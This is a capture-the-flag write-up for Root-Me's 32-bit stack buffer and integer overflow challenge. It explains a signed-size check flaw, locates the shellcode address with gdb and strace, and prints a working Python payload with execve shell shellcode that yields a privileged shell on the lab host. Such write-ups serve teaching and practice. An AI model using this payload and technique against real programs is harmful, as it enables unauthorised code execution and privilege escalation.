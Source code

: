 # ELF x86 - Stack buffer and integer overflow
https://www.root-me.org/en/Challenges/App-System/ELF32-Stack-buffer-and-integer-overflow
```
Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 No 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch11@challenge02.root-me.org    
Username	app-systeme-ch11
Password	app-systeme-ch11
```
After looking a bit at the source code (and the title name), one can see a vulnerability in the following code:

```c
int size;  

if(read(fd, &size, sizeof(int)) != sizeof(int))
{
  printf("[-] File too short.\n");
  exit(0);
}
if(size >= BUFFER)
{
  printf("[-] Path too long.\n");
  exit(0);
}
```
The vulnerability is the signing of the variable _size_. Because it's a signed int variable, 0xffffffff equals to -1.<br>
Therefore, if an attacker (us) specifies a file with 0xffffffff as the first 4 bytes, he'll be able to read and write 0xffffffff bytes (which is more than enough to overflow the 128 bytes buffer).<br><br>

So let's craft a file that will look like the following:
```
   +------------+---------+-----------+-------------------+--------------------------+
   | 0xffffffff | "/" (*) | SHELLCODE | JUNK for overflow | address of the shellcode |
   +------------+---------+-----------+-------------------+--------------------------+
   
   (*) For passing the if at line 35.
```
With a bit of guessing, one can find out the the offset to the **eip** in stack is 140 bytes after the "/" character.
So out exploit should look like the following:
```
   +------------+---------+--------------------+--------------------------------+--------------------------+
   | 0xffffffff | "/" (*) | 28 bytes SHELLCODE | 112 bytes of JUNK for overflow | address of the shellcode |
   +------------+---------+--------------------+--------------------------------+--------------------------+
   
   (*) For passing the if at line 35.
```
Now let's find out the address to the shellcode. According to gdb:
```gdb
(gdb) break *0x08048612
Breakpoint 1 at 0x8048612: file binary11.c, line 33.
(gdb) run /tmp/badfile
Starting program: /challenge/app-systeme/ch11/ch11 /tmp/badfile

Breakpoint 1, 0x08048612 in read_file (fd=3) at binary11.c:33
33	binary11.c: No such file or directory.
(gdb) info reg
eax            0xbffffabf	-1073743169
ecx            0xbffffab8	-1073743176
edx            0x4	4
ebx            0x80	128
esp            0xbffffaa0	0xbffffaa0
ebp            0xbffffb48	0xbffffb48
esi            0x0	0
edi            0xbffffb40	-1073743040
eip            0x8048612	0x8048612 <read_file+221>
eflags         0x282	[ SF IF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```
The first byte '/' is read into 0xbffffabf. So the shellcode is probably at 0xbffffac0 right? Well, apparently not:
```sh
app-systeme-ch11@challenge02:~$ python -c "print '\xff\xff\xff\xff' + '/' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + 'A'*117 + '\xc0\xfa\xff\xbf' " > /tmp/badfile
app-systeme-ch11@challenge02:~$ ./ch11 /tmp/badfile
[+] The pathname is : /1�Ph//shh/bin��PS���
                                           AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����

Segmentation fault
app-systeme-ch11@challenge02:~$ strace ./ch11 /tmp/badfile
[...snip...]
open("/tmp/badfile", O_RDONLY)          = 3
read(3, "\377\377\377\377", 4)          = 4
read(3, "/", 1)                         = 1
read(3, "1", 1)                         = 1
[...snip...]
write(1, "[+] The pathname is : /1\300Ph//shh"..., 168[+] The pathname is : /1�Ph//shh/bin��PS���
                                                                                                 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
) = 168
write(1, "\n", 1
)                       = 1
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0xfadf08ad} ---
+++ killed by SIGSEGV +++
Segmentation fault
```
It happens because the addresses are different between inside and outside of gdb (someone told me it's because the additional environment variables gdb sets).<br>
So to come around it, and find the actual address of the shellcode outside gdb, one can use the _-e_ switch of the **strace** tool.<br>
The _-e_ switch enables one to set an expression which will affect the tool's output. For example, for seeing the second argument of **read** as an address instead of the string.<br>
So to find out the shellcode's address, one can use "-e raw=read" and see the following output:
```sh
app-systeme-ch11@challenge02:~$ strace -e raw=read ./ch11 /tmp/badfile
[...snip...]
open("/tmp/badfile", O_RDONLY)          = 3
read(0x3, 0xbffffad8, 0x4)              = 0x4
read(0x3, 0xbffffadf, 0x1)              = 0x1
read(0x3, 0xbffffae0, 0x1)              = 0x1
[...snip...]
write(1, "[+] The pathname is : /1\300Ph//shh"..., 168[+] The pathname is : /1�Ph//shh/bin��PS���
                                                                                                 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
) = 168
write(1, "\n", 1
)                       = 1
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0xfadf08ad} ---
+++ killed by SIGSEGV +++
Segmentation fault
```
It looks like the address of the shellcode is 0xbffffae0 and not 0xbffffac0. After trying it out, one can get the following output:
```sh
app-systeme-ch11@challenge02:~$ python -c "print '\xff\xff\xff\xff' + '/' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + 'A'*117 + '\xe0\xfa\xff\xbf' " > /tmp/badfile
app-systeme-ch11@challenge02:~$ ./ch11 /tmp/badfile
[+] The pathname is : /1�Ph//shh/bin��PS���
                                           AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����

$ id
uid=1111(app-systeme-ch11) gid=1111(app-systeme-ch11) euid=1211(app-systeme-ch11-cracked) groups=1211(app-systeme-ch11-cracked),100(users),1111(app-systeme-ch11)
$ cat .passwd
<censored>
```

